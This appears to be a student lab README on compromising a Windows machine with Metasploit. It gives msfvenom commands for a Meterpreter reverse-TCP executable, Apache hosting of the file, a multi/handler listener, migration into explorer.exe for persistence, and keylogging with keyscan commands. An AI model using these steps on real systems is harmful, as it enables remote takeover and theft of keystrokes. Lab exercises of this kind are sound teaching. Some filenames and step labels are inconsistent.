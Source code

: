 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0aaf688d-2d73-4d34-8453-3e64cc703b24)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe
#### OUTPUT
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/47c3b051-8684-488d-895c-bea9f2d2604e)


copy the malware.exe into the apache /var/www/html folder

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/750b6c58-84d1-4614-b9fc-09fe2fedd029)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/5650d9f0-c4c1-411a-a21a-5a45ffa361a0)


Check the status of apache2

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/0441b4c9-e7d5-4318-96cb-1a6b720c4b8a)


Invoke msfconsole:
![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/c9292e2c-4905-421a-8742-a940f596b4f5)

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![image](https://github.com/Bhargava-Shankar/Compromising-windows-using-Metasploit/assets/85554376/54aeae61-a82f-4069-b2da-a6673e89135f)


set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![download](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/a6b73051-a143-4740-b3d9-27c23762218f)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exploit](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/b46a08f7-a9fc-4e71-8fdd-170ee187dd22)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![meterpreter-ps](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/7e6e28fb-b095-4fd1-81f8-a0292f82c9a2)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![migrate-Nexplorer](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/836e6efa-423f-4553-ad2f-19170b010892)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![notepad](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/35be18d7-51b0-4529-8fd8-76740f0c9ba6)
keyscan_dump	Shows the keystrokes captured so far
![keyscan_dump](https://github.com/Manoj162004/Compromising-windows-using-Metasploit/assets/120365042/d40a4428-0c65-4855-be1d-c278766082fb)






## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
